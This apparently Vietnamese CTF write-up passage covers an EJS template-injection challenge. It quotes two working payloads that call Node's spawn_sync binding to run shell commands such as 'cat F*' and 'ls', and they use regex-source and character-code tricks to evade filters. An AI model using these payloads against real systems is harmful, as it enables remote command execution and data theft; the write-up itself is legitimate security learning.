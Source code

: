 ![image](https://user-images.githubusercontent.com/75429369/179701242-eb666458-09e8-4ec3-a993-4e11d3ad7b17.png)

Tới đây thì mình đã không giải được bài này...

Sau khi vào discord của giải thì mình tìm được payload của 1 player có cách tiếp cận khá giống mình như sau

```javascript
//@splitline#4881 

<%= process.binding(/spawn_sync/.source).spawn({ file: (sh=>/bin//sh).toString().slice(2+2), args: /sh,-c,cat F*/.source.split(/,/.source), stdio: [ { type: /pipe/.source, writable: true, readable: true }, { type: /pipe/.source, writable: true, readable: true } ] }).output %>
```

Thay vì dùng `bash` và dùng `1` thì anh/bạn này dùng `sh` và `true`, thử thay đổi những thứ này vào payload của mình thì đã chạy được

```javascript
<%=process.binding(/spawn_sync/.source).spawn({file: String.fromCharCode(9+9+9+9+9+2,98,99+2+2+2,98+2+2+2+2+2+2,9+9+9+9+9+2,98+8+9,98+2+2+2),args: [/sh/.source,/-c/.source,/ls/.source],stdio: [{type: /pipe/.source,readable: true, writable: true}, {type: /pipe/.source, writable: true, readable: true}]}).output%>
```

![image](https://user-images.githubusercontent.com/75429369/179706252-d51071dc-f5be-4325-9f9f-6f08c230056c.png)

Mình thắc mắc về vấn đề này nên đã đi hỏi tác giả, thì biết rằng `bash` không được install :(, còn cái boolean kia là do phiên bản node của mình đã cũ...

![image](https://user-images.githubusercontent.com/75429369/179706368-3f69a7ca-f009-470a-93da-f82ef928b8ad.png)

Dù không giải được nhưng bài này khá hay vì đã giúp mình biết thêm một cách tiếp cận khi gặp những dạng này.


_Hết rồi_
